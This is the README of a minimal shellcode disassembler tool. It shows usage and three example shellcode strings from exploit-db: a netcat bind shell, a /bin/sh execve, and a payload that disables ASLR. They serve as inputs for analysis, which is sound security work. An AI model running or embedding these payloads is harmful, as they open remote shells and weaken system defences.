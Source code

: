 # shellconv
Small tool for disassembling shellcode (using objdump)<br/>
<pre>
Use: ./shellconv.py [inFile] [arch:optional] [outFile:optional]
arch: defined as in objdump -m, default: i386
</pre>
<hr/>
<b>DISCLAIMER</b><br/>
This tool is intended to be minimalistic.<br/>
It may not give proper results in case of complicated/obfuscated shellcode. In such cases, please refer to tools of appropriate complexity.<br/>
<i>If you still think, that I should develop this tool further, and make it a fully-fledged app, feel free to write me an e-mail :) [hasherezade-at-op.pl]</i><hr/>
examples:
-
1) https://www.exploit-db.com/exploits/36921/<br/>
expdb1.shc :
<pre>
"\x31\xc0\x31\xd2\x50\x68\x37\x37\x37\x31\x68\x2d\x76\x70\x31\x89\xe6\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x68\x2d\x6c\x65\x2f\x89\xe7\x50\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e\x89\xe3\x52\x56\x57\x53\x89\xe1\xb0\x0b\xcd\x80";
</pre>

![](img/expdb1-32b.png)

<br/><br/>
2) https://www.exploit-db.com/exploits/36858/<br/>
expdb1_64.shc :
<pre>
  char *shellcode =3D "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56=
\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05";
</pre>

<br/><br/>
3) https://www.exploit-db.com/exploits/36637/<br/>
expdb3.shc :
<pre>
char shellcode[] = "\xeb\x22\x5b\x31\xc0\x88\x43\x23\x6a\x05\x58"
"\x6a\x02\x59\xcd\x80\x89\xc3\x6a\x04\x58\xeb\x36\x59\x6a\x02\x5a
\xcd\x80\x6a\x01\x58\x31\xdb\xcd\x80\xe8\xd9\xff\xff\xff\x2f\x70
\x72\x6f\x63\x2f\x73\x79\x73\x2f\x6b\x65\x72\x6e\x65\x6c\x2f\x72
\x61\x6e\x64\x6f\x6d\x69\x7a\x65\x5f\x76\x61\x5f\x73\x70\x61\x63
\x65\x58\xe8\xc5\xff\xff\xff\x30\x0a";
</pre>

